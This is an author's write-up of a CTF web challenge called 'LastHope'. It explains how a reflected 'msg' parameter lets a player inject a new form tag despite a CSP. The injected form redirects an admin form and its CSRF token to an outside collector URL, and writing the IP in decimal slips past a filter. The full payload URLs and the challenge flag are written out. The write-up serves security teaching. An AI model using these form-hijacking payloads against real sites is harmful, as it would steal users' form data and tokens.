 Hello ALL , its me TnMch , it was really amazing event when i was helping geek guys to make this ctf cool and enjoy hacking :D

So , when i was building some task , I get the idea of this LastHope task that need a lot of skills 

So the task was first sign in/out page where you can create you account and login to the home page 


![image](https://user-images.githubusercontent.com/7364615/28757581-5ce51b22-7586-11e7-95b1-ba17d50a7e95.png)


Then when you login there is home and contact page with some fun picture :D

![image](https://user-images.githubusercontent.com/7364615/28757606-db10c26c-7586-11e7-9ee7-b5876fac757b.png)

![image](https://user-images.githubusercontent.com/7364615/28757620-1090f538-7587-11e7-8166-677c1262095c.png)



I puted this picture to give the player the chance to look more and dont focus only in this page 

So if you look in source code of home page you will see hidden form :p


![image](https://user-images.githubusercontent.com/7364615/28757628-40839124-7587-11e7-8679-90aa94441854.png)


so here where we start look deeper :p

its msg parameter which will echo anything in the home page 

![image](https://user-images.githubusercontent.com/7364615/28757646-9cb669ee-7587-11e7-8b3c-efdfb70fbffb.png)

but wait :D there is something i just added in header for smart guys :D 

![image](https://user-images.githubusercontent.com/7364615/28757649-c9fd1a38-7587-11e7-8849-494c308dee44.png)


CSP default-src 'self' so no chance to load any script into the home page ! :D did that means no chance for XSS!!

no wait lets check more always something is missing there 

using some cool staff we can get backup file /index.php.old


![image](https://user-images.githubusercontent.com/7364615/28757673-74b5655c-7588-11e7-87a9-fc52b1b54083.png)

So here we can understand that there is hidden form for admin only 

There is csrf token also , so first csp and then csrf LOOL , maybe many player will said so what we can do here its all over

 <input type="hidden" name="csrf_token" value="{$csrf_token}" />
 
 
 But there is always hope for you guys as the picture said :D
 
 our msg payload is just printed after the for balise :D so what we can do!!
 
 Did you know guys we can do alot of staff here :p
 
 Redirect submit form to our url and steal form data will not be something good :p 
 
 so if we send this url to admin :
 
 ```
 http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="https://requestb.in/xxxxxx">
 ```
 
 The form will be changed to the new action , and here we can control over the form and get the data to our link 
 
 But as i am so bad :D i add some filtre here and i block any second url send with the link so no one can get data there XD
 
 But smart guys and good player will not stop here and can do more 
 
 Changing our ip url to decimal can do the job for us and bypass the filtre 
 
 exp :  34.253.165.46 will be  587048238
 
 So our link can be 
 ```
  http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="http://587048238:8080">
```
And all filtre bypassed :D 

YUP , just we get the flag

![image](https://user-images.githubusercontent.com/7364615/28757773-6c1176dc-758a-11e7-91d7-aa17fdc5a8db.png)


FLAG : Bugs_Bunny{Oh_You_FFirst_Find_Me_And_Bypass_My_CSP_:((!!}


HOPE YOU GUYS ENJOYED MY WEB TASK :D 
see you next year

